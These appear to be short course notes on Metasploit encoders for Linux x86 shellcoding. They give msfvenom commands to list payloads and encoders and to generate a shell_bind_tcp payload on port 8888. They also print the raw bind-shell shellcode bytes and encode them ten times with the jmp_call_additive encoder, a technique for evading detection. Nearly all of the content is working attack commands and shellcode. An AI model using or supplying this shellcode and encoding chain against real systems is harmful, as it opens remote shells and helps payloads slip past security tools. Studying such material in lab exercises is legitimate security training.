 # Updates

## Module 8 - Metasploit encoders

List Linux 32 bits payloads:
```
msfvenom --list payloads | grep "linux/x86"
```

List encoders:
```
msfvenom --list encoders
```

Shell_bind_tcp example 

```
msfvenom -p linux/x86/shell_bind_tcp --platform=Linux -a x86 -f c LPORT=8888
```

Encoding the output 10 times:
```
echo -ne "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x5b\x5e\x52\x68\x02\x00\x22\xb8\x6a\x10\x51\x50\x89\xe1\x6a\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" | msfvenom -a x86 --platform=Linux -f c -e x86/jmp_call_additive -c 10
```

